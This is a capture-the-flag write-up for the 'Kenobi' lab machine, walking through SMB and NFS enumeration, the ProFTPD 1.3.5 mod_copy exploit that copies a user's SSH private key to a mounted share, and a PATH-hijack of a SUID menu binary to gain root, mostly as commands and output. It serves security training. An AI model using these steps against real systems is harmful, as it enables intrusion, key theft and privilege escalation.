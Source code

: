 # Kenobi Challenge Write Up

First We have to run nmap command to find all ports that open and what services are available:
``sudo nmap -sV -sC -oN nmap/initials 10.10.170.162``

open ports:
- 21 ftp
- 22 ssh
- 80 http
- 111 rpcbind
- 139/tcp netbios-ssn Samba smbd 3.X - 4.X
- 445/tcp netbios-ssn Samba smbd 4.3.11-Ubuntu
- 2049 nfs_acl     2-3 (RPC #100227)

Then let's search how many shares we could find
using ``nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.170.162 -oN nmap/smb_445``

result:
```bash
PORT    STATE SERVICE                                                                                                                     
445/tcp open  microsoft-ds                                                                                                                                                                                        
                                                                                                                                                                                                                  
Host script results:                                                                                                                                                                                              
| smb-enum-shares:                                                                                                                                                                           
|   account_used: guest
|   \\10.10.170.162\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.170.162\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.170.162\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

we found that we can login as anonymous, so let's do it:
```bash
smbclient //10.10.239.150/anonymous
```

There we can found **log.txt** file, let's back to our machine than use ``smbget`` to get the files in that directory
```bash
smbget -R smb://10.10.239.150/anonymous
```

Using nmap script ``nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.46.244``
we can see that there's a mount /var

Nest, let's search more information, there we can see that they using proFTPD for FTP server.
Let's connect it:
```bash
ftp 10.10.46.244 -p 21
Connected to 10.10.46.244.
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.46.244]
```
They use proFTPF 1.3.5, it says that this service is vulenrable in the past. Using searchsploit, we can see what exploit might be usefull to attack this service.

The Vulnerability was on the mod_copy module, where we able to copy content from a driectory to another wihtout send to the client, and back to the remote directory. The culnerability was, that anybody could perform the SITE CPFR and SITE CPFTO with leveraged privillage. Lets copy kenobi private key to the mounted, and mount it on our local:
```bash
nc 10.10.46.244 21    
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.46.244]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

mkdir mounted_dir
sudo mount 10.10.46.244:/var mounted_dir
```

now we able to connect via ssh to the kenobi computer using his private key (id_rsa)
```bash
ssh -i id_rsa kenobi@10.10.46.244
```

Okay, now we're in the machine, what should we do next is laverage our privillage as root. let's find what cpmmand could we do as root?
```bash
sudo -l
```
```bash
find / -perm -u=s -type f 2>/dev/null
```
the result:
```bash
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

/usr/bin/menu is not usual, lets run the command:
```bash
/usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
```
weird program, but however, each has their own function. Let's see what commadn might be visible using strings command:
```bash
strings /usr/bin/menu
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
__isoc99_scanf
puts
__stack_chk_fail
printf
system
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
UH-`
AWAVA
AUATL
[]A\A]A^A_
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
 Invalid choice
```
seems that they run without specifying hte location such as /usr/bin/*, so we might able to change the command path location.
```bash
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# whomai
/bin/sh: 1: whomai: not found
# whoami
root
```
voila we get the root access.